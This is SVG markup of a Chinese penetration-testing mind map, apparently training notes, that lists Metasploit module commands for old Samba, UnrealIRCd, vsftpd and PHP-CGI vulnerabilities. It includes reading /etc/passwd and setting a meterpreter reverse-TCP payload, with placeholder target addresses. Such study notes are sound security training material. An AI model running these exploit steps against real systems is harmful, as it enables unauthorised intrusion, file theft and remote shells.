    <path ed:tosuperid="320" stroke-linecap="round" fill="none" id="321" stroke-linejoin="round" d="M-0.5,-33.1C-0.5,6.6,5.1,33.1,13.5,33.1" ed:parentid="308" stroke="#558ed5" transform="matrix(1,0,0,1,749,2545)"/>
    <path ed:tosuperid="322" stroke-linecap="round" fill="none" id="323" stroke-linejoin="round" d="M-13.5,39.4L-0.5,39.4C-0.5,-7.9,5.1,-39.4,13.5,-39.4" ed:parentid="320" stroke="#558ed5" transform="matrix(1,0,0,1,820,2538)"/>
    <path ed:tosuperid="324" stroke-linecap="round" fill="none" id="325" stroke-linejoin="round" d="M-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="320" stroke="#558ed5" transform="matrix(1,0,0,1,820,2554)"/>
    <path ed:tosuperid="326" stroke-linecap="round" fill="none" id="327" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="320" stroke="#558ed5" transform="matrix(1,0,0,1,820,2570)"/>
    <path ed:tosuperid="328" stroke-linecap="round" fill="none" id="329" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="320" stroke="#558ed5" transform="matrix(1,0,0,1,820,2586)"/>
    <path ed:tosuperid="330" stroke-linecap="round" fill="none" id="331" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="320" stroke="#558ed5" transform="matrix(1,0,0,1,820,2601)"/>
    <path ed:tosuperid="332" stroke-linecap="round" fill="none" id="333" stroke-linejoin="round" d="M-0.5,-39.4C-0.5,7.9,5.1,39.4,13.5,39.4" ed:parentid="320" stroke="#558ed5" transform="matrix(1,0,0,1,820,2617)"/>
    <path ed:tosuperid="334" stroke-linecap="round" fill="none" id="335" stroke-linejoin="round" d="M-0.5,-571.8C-0.5,114.3,5.1,571.8,13.5,571.8" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,2242)"/>
    <path ed:tosuperid="336" stroke-linecap="round" fill="none" id="337" stroke-linejoin="round" d="M-13.5,55.1L-0.5,55.1C-0.5,-11,5.1,-55.1,13.5,-55.1" ed:parentid="334" stroke="#558ed5" transform="matrix(1,0,0,1,831,2759)"/>
    <path ed:tosuperid="338" stroke-linecap="round" fill="none" id="339" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="336" stroke="#558ed5" transform="matrix(1,0,0,1,902,2696)"/>
    <path ed:tosuperid="340" stroke-linecap="round" fill="none" id="341" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="336" stroke="#558ed5" transform="matrix(1,0,0,1,902,2712)"/>
    <path ed:tosuperid="342" stroke-linecap="round" fill="none" id="343" stroke-linejoin="round" d="M-13.5,0L-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="340" stroke="#558ed5" transform="matrix(1,0,0,1,999,2720)"/>
    <path ed:tosuperid="344" stroke-linecap="round" fill="none" id="345" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.2,5.1,15.8,13.5,15.8" ed:parentid="334" stroke="#558ed5" transform="matrix(1,0,0,1,831,2830)"/>
    <path ed:tosuperid="346" stroke-linecap="round" fill="none" id="347" stroke-linejoin="round" d="M-13.5,47.3L-0.5,47.3C-0.5,-9.5,5.1,-47.3,13.5,-47.3" ed:parentid="344" stroke="#558ed5" transform="matrix(1,0,0,1,902,2798)"/>
    <path ed:tosuperid="348" stroke-linecap="round" fill="none" id="349" stroke-linejoin="round" d="M-0.5,31.5C-0.5,-6.3,5.1,-31.5,13.5,-31.5" ed:parentid="344" stroke="#558ed5" transform="matrix(1,0,0,1,902,2814)"/>
    <path ed:tosuperid="350" stroke-linecap="round" fill="none" id="351" stroke-linejoin="round" d="M-0.5,15.8C-0.5,-3.2,5.1,-15.8,13.5,-15.8" ed:parentid="344" stroke="#558ed5" transform="matrix(1,0,0,1,902,2830)"/>
    <path ed:tosuperid="352" stroke-linecap="round" fill="none" id="353" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="344" stroke="#558ed5" transform="matrix(1,0,0,1,902,2846)"/>
    <path ed:tosuperid="354" stroke-linecap="round" fill="none" id="355" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.2,5.1,15.8,13.5,15.8" ed:parentid="344" stroke="#558ed5" transform="matrix(1,0,0,1,902,2861)"/>
    <path ed:tosuperid="356" stroke-linecap="round" fill="none" id="357" stroke-linejoin="round" d="M-0.5,-31.5C-0.5,6.3,5.1,31.5,13.5,31.5" ed:parentid="344" stroke="#558ed5" transform="matrix(1,0,0,1,902,2877)"/>
    <path ed:tosuperid="358" stroke-linecap="round" fill="none" id="359" stroke-linejoin="round" d="M-0.5,-47.3C-0.5,9.5,5.1,47.3,13.5,47.3" ed:parentid="344" stroke="#558ed5" transform="matrix(1,0,0,1,902,2893)"/>
    <path ed:tosuperid="360" stroke-linecap="round" fill="none" id="361" stroke-linejoin="round" d="M-0.5,-682C-0.5,136.4,5.1,682,13.5,682" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,2353)"/>
    <path ed:tosuperid="362" stroke-linecap="round" fill="none" id="363" stroke-linejoin="round" d="M-13.5,31.5L-0.5,31.5C-0.5,-6.3,5.1,-31.5,13.5,-31.5" ed:parentid="360" stroke="#558ed5" transform="matrix(1,0,0,1,893,3003)"/>
    <path ed:tosuperid="364" stroke-linecap="round" fill="none" id="365" stroke-linejoin="round" d="M-0.5,15.8C-0.5,-3.2,5.1,-15.8,13.5,-15.8" ed:parentid="360" stroke="#558ed5" transform="matrix(1,0,0,1,893,3019)"/>
    <path ed:tosuperid="366" stroke-linecap="round" fill="none" id="367" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="360" stroke="#558ed5" transform="matrix(1,0,0,1,893,3035)"/>
    <path ed:tosuperid="368" stroke-linecap="round" fill="none" id="369" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.2,5.1,15.8,13.5,15.8" ed:parentid="360" stroke="#558ed5" transform="matrix(1,0,0,1,893,3050)"/>
    <path ed:tosuperid="370" stroke-linecap="round" fill="none" id="371" stroke-linejoin="round" d="M-0.5,-31.5C-0.5,6.3,5.1,31.5,13.5,31.5" ed:parentid="360" stroke="#558ed5" transform="matrix(1,0,0,1,893,3066)"/>
    <path ed:tosuperid="372" stroke-linecap="round" fill="none" id="373" stroke-linejoin="round" d="M-0.5,-776.5C-0.5,155.3,5.1,776.5,13.5,776.5" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,2447)"/>
    <path ed:tosuperid="374" stroke-linecap="round" fill="none" id="375" stroke-linejoin="round" d="M-13.5,39.4L-0.5,39.4C-0.5,-7.9,5.1,-39.4,13.5,-39.4" ed:parentid="372" stroke="#558ed5" transform="matrix(1,0,0,1,857,3184)"/>
    <path ed:tosuperid="376" stroke-linecap="round" fill="none" id="377" stroke-linejoin="round" d="M-13.5,0L-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="374" stroke="#558ed5" transform="matrix(1,0,0,1,928,3145)"/>
    <path ed:tosuperid="378" stroke-linecap="round" fill="none" id="379" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="376" stroke="#558ed5" transform="matrix(1,0,0,1,999,3137)"/>
    <path ed:tosuperid="380" stroke-linecap="round" fill="none" id="381" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="376" stroke="#558ed5" transform="matrix(1,0,0,1,999,3153)"/>
    <path ed:tosuperid="382" stroke-linecap="round" fill="none" id="383" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.2,5.1,15.8,13.5,15.8" ed:parentid="372" stroke="#558ed5" transform="matrix(1,0,0,1,857,3239)"/>
    <path ed:tosuperid="384" stroke-linecap="round" fill="none" id="385" stroke-linejoin="round" d="M-13.5,31.5L-0.5,31.5C-0.5,-6.3,5.1,-31.5,13.5,-31.5" ed:parentid="382" stroke="#558ed5" transform="matrix(1,0,0,1,928,3224)"/>
    <path ed:tosuperid="386" stroke-linecap="round" fill="none" id="387" stroke-linejoin="round" d="M-0.5,15.8C-0.5,-3.2,5.1,-15.8,13.5,-15.8" ed:parentid="382" stroke="#558ed5" transform="matrix(1,0,0,1,928,3239)"/>
    <path ed:tosuperid="388" stroke-linecap="round" fill="none" id="389" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="382" stroke="#558ed5" transform="matrix(1,0,0,1,928,3255)"/>
    <path ed:tosuperid="390" stroke-linecap="round" fill="none" id="391" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.2,5.1,15.8,13.5,15.8" ed:parentid="382" stroke="#558ed5" transform="matrix(1,0,0,1,928,3271)"/>
    <path ed:tosuperid="392" stroke-linecap="round" fill="none" id="393" stroke-linejoin="round" d="M-0.5,-31.5C-0.5,6.3,5.1,31.5,13.5,31.5" ed:parentid="382" stroke="#558ed5" transform="matrix(1,0,0,1,928,3287)"/>
    <g id="101" ed:height="65" transform="matrix(1,0,0,1,25,1638)" ed:topictype="mainidea" ed:width="215" ed:layout="map">
        <path fill="#dce6f2" d="M4,0L211,0C213.2,0,215,1.8,215,4L215,61C215,63.2,213.2,65,211,65L4,65C1.8,65,0,63.2,0,61L0,4C0,1.8,1.8,0,4,0z" stroke-linejoin="round" stroke="#558ed5" stroke-width="5"/>
        <text class="st4">
            <tspan y="40.8" style="white-space:pre" x="22">铁人三项训练营</tspan>
        </text>
    </g>
    <g id="102" ed:parentid="101" ed:height="40" transform="matrix(1,0,0,1,303,1651)" ed:width="104" ed:layout="rightmap">
        <path fill="#dce6f2" d="M4,0L100,0C102.2,0,104,1.8,104,4L104,36C104,38.2,102.2,40,100,40L4,40C1.8,40,0,38.2,0,36L0,4C0,1.8,1.8,0,4,0z" stroke-linejoin="round" stroke="#558ed5" stroke-width="2"/>
        <text class="st5">
            <tspan y="25.3" style="white-space:pre" x="18">msf主题</tspan>
        </text>
    </g>
    <g id="104" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,259)" ed:width="84" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L84,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">samba漏洞</tspan>
        </text>
    </g>
    <g id="106" ed:parentid="104" ed:height="25" transform="matrix(1,0,0,1,545,165)" ed:width="369" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L369,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">Samba &lt;= 3.4.5 Symlink Directory Traversal Vulnerability</tspan>
        </text>
    </g>
    <g id="108" ed:parentid="106" ed:height="25" transform="matrix(1,0,0,1,941,39)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">相关</tspan>
        </text>
    </g>
    <g id="110" ed:parentid="108" ed:height="25" transform="matrix(1,0,0,1,1012,23)" ed:width="119" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L119,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">CVE-2010-0926</tspan>
        </text>
    </g>
    <g id="112" ed:parentid="108" ed:height="25" transform="matrix(1,0,0,1,1012,55)" ed:width="382" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L382,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">可能允许远程访问攻击者可以在目标后面读取，列出和检索文件</tspan>
        </text>
    </g>
    <g id="114" ed:parentid="106" ed:height="25" transform="matrix(1,0,0,1,941,196)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">攻击</tspan>
        </text>
    </g>
    <g id="116" ed:parentid="114" ed:height="25" transform="matrix(1,0,0,1,1012,86)" ed:width="269" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L269,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use admin/smb/samba_symlink_traversal</tspan>
        </text>
    </g>
    <g id="118" ed:parentid="114" ed:height="25" transform="matrix(1,0,0,1,1012,118)" ed:width="169" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L169,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set rhost xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="120" ed:parentid="114" ed:height="25" transform="matrix(1,0,0,1,1012,149)" ed:width="128" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L128,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set smbshare tmp</tspan>
        </text>
    </g>
    <g id="122" ed:parentid="120" ed:height="25" transform="matrix(1,0,0,1,1167,149)" ed:width="103" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L103,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">(tmp可写权限)</tspan>
        </text>
    </g>
    <g id="124" ed:parentid="114" ed:height="25" transform="matrix(1,0,0,1,1012,181)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="126" ed:parentid="114" ed:height="25" transform="matrix(1,0,0,1,1012,212)" ed:width="217" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L217,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">smbclient //xxx.xxx.xxx.xxx/tmp</tspan>
        </text>
    </g>
    <g id="128" ed:parentid="114" ed:height="25" transform="matrix(1,0,0,1,1012,244)" ed:width="74" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L74,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">cd rootfs</tspan>
        </text>
    </g>
    <g id="130" ed:parentid="114" ed:height="25" transform="matrix(1,0,0,1,1012,275)" ed:width="27" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L27,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">ls</tspan>
        </text>
    </g>
    <g id="132" ed:parentid="114" ed:height="25" transform="matrix(1,0,0,1,1012,307)" ed:width="130" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L130,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">more /etc/passwd</tspan>
        </text>
    </g>
    <g id="134" ed:parentid="104" ed:height="25" transform="matrix(1,0,0,1,545,417)" ed:width="307" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L307,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8"> username map script(Samba 3.0.0 - 3.0.25rc3)</tspan>
        </text>
    </g>
    <g id="136" ed:parentid="134" ed:height="25" transform="matrix(1,0,0,1,879,354)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">相关</tspan>
        </text>
    </g>
    <g id="138" ed:parentid="136" ed:height="25" transform="matrix(1,0,0,1,950,338)" ed:width="119" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L119,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">CVE-2007-2447</tspan>
        </text>
    </g>
    <g id="140" ed:parentid="136" ed:height="25" transform="matrix(1,0,0,1,950,370)" ed:width="96" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L96,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">执行任意命令</tspan>
        </text>
    </g>
    <g id="142" ed:parentid="134" ed:height="25" transform="matrix(1,0,0,1,879,448)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">攻击</tspan>
        </text>
    </g>
    <g id="144" ed:parentid="142" ed:height="25" transform="matrix(1,0,0,1,950,401)" ed:width="266" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L266,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use exploit/multi/samba/usermap_script</tspan>
        </text>
    </g>
    <g id="146" ed:parentid="142" ed:height="25" transform="matrix(1,0,0,1,950,433)" ed:width="169" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L169,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set rhost xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="148" ed:parentid="142" ed:height="25" transform="matrix(1,0,0,1,950,464)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="150" ed:parentid="142" ed:height="25" transform="matrix(1,0,0,1,950,496)" ed:width="66" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L66,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">whoami</tspan>
        </text>
    </g>
    <g id="152" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,527)" ed:width="84" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L84,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">与beef配合</tspan>
        </text>
    </g>
    <g id="154" ed:parentid="152" ed:height="25" transform="matrix(1,0,0,1,545,527)" ed:width="137" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L137,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">beef配置劫持拿shell</tspan>
        </text>
    </g>
    <g id="156" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,669)" ed:width="328" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L328,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">UnrealIRCD 3.2.8.1 Backdoor Command Execution</tspan>
        </text>
    </g>
    <g id="158" ed:parentid="156" ed:height="25" transform="matrix(1,0,0,1,789,606)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">相关</tspan>
        </text>
    </g>
    <g id="160" ed:parentid="158" ed:height="25" transform="matrix(1,0,0,1,860,559)" ed:width="119" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L119,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">CVE-2010-2075</tspan>
        </text>
    </g>
    <g id="162" ed:parentid="158" ed:height="25" transform="matrix(1,0,0,1,860,590)" ed:width="96" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L96,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">远程代码执行</tspan>
        </text>
    </g>
    <g id="164" ed:parentid="158" ed:height="25" transform="matrix(1,0,0,1,860,622)" ed:width="111" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L111,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">unreal_ircd服务</tspan>
        </text>
    </g>
    <g id="166" ed:parentid="158" ed:height="25" transform="matrix(1,0,0,1,860,653)" ed:width="98" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L98,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">版本：3.2.8.1</tspan>
        </text>
    </g>
    <g id="168" ed:parentid="156" ed:height="25" transform="matrix(1,0,0,1,789,732)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">攻击</tspan>
        </text>
    </g>
    <g id="170" ed:parentid="168" ed:height="25" transform="matrix(1,0,0,1,860,685)" ed:width="312" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L312,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use exploit/unix/irc/unreal_ircd_3281_backdoor</tspan>
        </text>
    </g>
    <g id="172" ed:parentid="168" ed:height="25" transform="matrix(1,0,0,1,860,716)" ed:width="169" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L169,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set rhost xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="174" ed:parentid="168" ed:height="25" transform="matrix(1,0,0,1,860,748)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="176" ed:parentid="168" ed:height="25" transform="matrix(1,0,0,1,860,779)" ed:width="66" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L66,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">whoami</tspan>
        </text>
    </g>
    <g id="178" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,889)" ed:width="299" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L299,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">vsftpd 2.3.4 - Backdoor Command Execution </tspan>
        </text>
    </g>
    <g id="180" ed:parentid="178" ed:height="25" transform="matrix(1,0,0,1,760,842)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">相关</tspan>
        </text>
    </g>
    <g id="182" ed:parentid="180" ed:height="25" transform="matrix(1,0,0,1,831,811)" ed:width="96" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L96,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">远程代码执行</tspan>
        </text>
    </g>
    <g id="184" ed:parentid="180" ed:height="25" transform="matrix(1,0,0,1,831,842)" ed:width="130" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L130,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">版本：vsftpd 2.3.4</tspan>
        </text>
    </g>
    <g id="186" ed:parentid="180" ed:height="25" transform="matrix(1,0,0,1,831,874)" ed:width="62" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L62,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">ftp服务</tspan>
        </text>
    </g>
    <g id="188" ed:parentid="178" ed:height="25" transform="matrix(1,0,0,1,760,937)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">攻击</tspan>
        </text>
    </g>
    <g id="190" ed:parentid="188" ed:height="25" transform="matrix(1,0,0,1,831,905)" ed:width="279" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L279,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use exploit/unix/ftp/vsftpd_234_backdoor</tspan>
        </text>
    </g>
    <g id="192" ed:parentid="188" ed:height="25" transform="matrix(1,0,0,1,831,937)" ed:width="169" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L169,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set rhost xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="194" ed:parentid="188" ed:height="25" transform="matrix(1,0,0,1,831,968)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="196" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,1110)" ed:width="347" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L347,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">PHP-CGI Argument Injection Remote Code Execution</tspan>
        </text>
    </g>
    <g id="198" ed:parentid="196" ed:height="25" transform="matrix(1,0,0,1,808,1015)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">相关</tspan>
        </text>
    </g>
    <g id="200" ed:parentid="198" ed:height="25" transform="matrix(1,0,0,1,879,1000)" ed:width="96" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L96,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">远程代码执行</tspan>
        </text>
    </g>
    <g id="202" ed:parentid="198" ed:height="25" transform="matrix(1,0,0,1,879,1031)" ed:width="288" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L288,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">https://www.seebug.org/vuldb/ssvid-60536</tspan>
        </text>
    </g>
    <g id="204" ed:parentid="196" ed:height="25" transform="matrix(1,0,0,1,808,1141)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">攻击</tspan>
        </text>
    </g>
    <g id="206" ed:parentid="204" ed:height="25" transform="matrix(1,0,0,1,879,1063)" ed:width="165" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L165,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">工具扫出网站cgi-bin目录</tspan>
        </text>
    </g>
    <g id="208" ed:parentid="204" ed:height="25" transform="matrix(1,0,0,1,879,1094)" ed:width="295" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L295,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8"> use exploit/multi/http/php_cgi_arg_injection</tspan>
        </text>
    </g>
    <g id="210" ed:parentid="204" ed:height="25" transform="matrix(1,0,0,1,879,1126)" ed:width="271" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L271,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set payload php/meterpreter_reverse_tcp</tspan>
        </text>
    </g>
    <g id="212" ed:parentid="204" ed:height="25" transform="matrix(1,0,0,1,879,1157)" ed:width="169" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L169,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set rhost xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="214" ed:parentid="204" ed:height="25" transform="matrix(1,0,0,1,879,1189)" ed:width="167" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L167,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set lhost xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="216" ed:parentid="204" ed:height="25" transform="matrix(1,0,0,1,879,1220)" ed:width="39" ed:layout="rightmap">
